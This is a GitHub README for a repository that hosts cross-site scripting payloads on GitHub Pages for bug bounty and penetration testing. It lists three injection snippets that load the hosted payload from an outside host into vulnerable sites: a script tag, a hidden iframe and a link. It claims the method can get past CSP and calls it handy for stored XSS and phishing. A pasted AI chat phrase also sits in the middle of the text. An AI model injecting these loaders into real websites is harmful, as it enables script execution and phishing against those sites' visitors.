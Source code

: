 # XSS Payload Host (GitHub Pages)

This repository hosts XSS payloads via GitHub Pages. It is useful for security researchers, bug bounty hunters, or penetration testers to demonstrate and execute Cross-Site Scripting (XSS) payloads on vulnerable websites.
<br>
<div align="center" style="margin: 30px 0;">
  <a href="https://www.whatsapp.com/channel/0029Vb68FeRFnSzGNOZC3h3x">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=WhatsApp+Channel&color=25D366&logo=whatsapp&logoColor=FFFFFF&label=" alt="WhatsApp Channel">
  </a>
  <a href="https://t.me/HackerSecure">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Telegram+Channel&color=24A1DE&logo=telegram&logoColor=FFFFFF&label=" alt="Telegram Channel">
  </a>
  <a href="https://www.linkedin.com/in/cybersecurity-pentester/">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=LinkedIn&color=0A66C2&logo=LinkedIn&logoColor=FFFFFF&label=" alt="LinkedIn">
  </a>
  <a href="https://linktr.ee/yogsec">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=LinkTree&color=25D366&logo=linktree&logoColor=FFFFFF&label=" alt="LinkTree">
  </a>
  <a href="https://x.com/home">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=X&color=000000&logo=x&logoColor=FFFFFF&label=" alt="X">
  </a>
  <a href="mailto:abhinavsingwal@gmail.com?subject=Hi%20YogSec%20,%20nice%20to%20meet%20you!">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Gmail&color=EA4335&logo=Gmail&logoColor=FFFFFF&label=" alt="Email">
  </a>
  <a href="https://yogsec.github.io/yogsec/">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Website&color=FFFFC5&logo=Firefox&logoColor=000000&label=" alt="Website">
  </a>
</div>
<br>
![Page](https://github.com/yogsec/xss-test/blob/main/Screenshot%20from%202025-04-09%2002-47-52.png?raw=true)
## Features

- Hosts external XSS scripts via GitHub Pages
- Bypasses CSP in some cases (depending on target site)
- Works with `<script src>`, `<iframe>`, and `<img>`-based injection
- Easy to use for PoC (Proof-of-Concept)

---

Absolutely! Here's a clean, well-formatted `README.md` section for **"How to Use"**, with proper markdown and code blocks to make it look professional and easy to read:

---


## How I Use It

Use this GitHub Pages setup to host my XSS payloads for testing real-world vulnerabilities during bug bounty hunting.

🔗 **Live Payload URL:**  
[https://yogsec.github.io/xss-test/](https://yogsec.github.io/xss-test/)

When I find a vulnerable parameter or input field that allows HTML/JS injection, I inject a `<script src>` or `<iframe>` pointing to my hosted payload. Here are a few ways I use it:

### 📜 Basic Script Injection

```bash
<script src="https://yogsec.github.io/xss-test/"></script>
```

### 🕵️‍♂️ Stealthy iframe Injection

```bash
<iframe src="https://yogsec.github.io/xss-test/" style="display:none"></iframe>
```

### 🔗 Clickable Link Payload

```bash
<a href="https://yogsec.github.io/xss-test/">Click Here</a>
```

This method is useful on targets where CSP policies restrict inline scripts, but allow loading scripts or frames from external sources. It’s also handy for stored XSS and phishing-style payloads.

> ⚠️ Use only for ethical hacking and responsible disclosure.


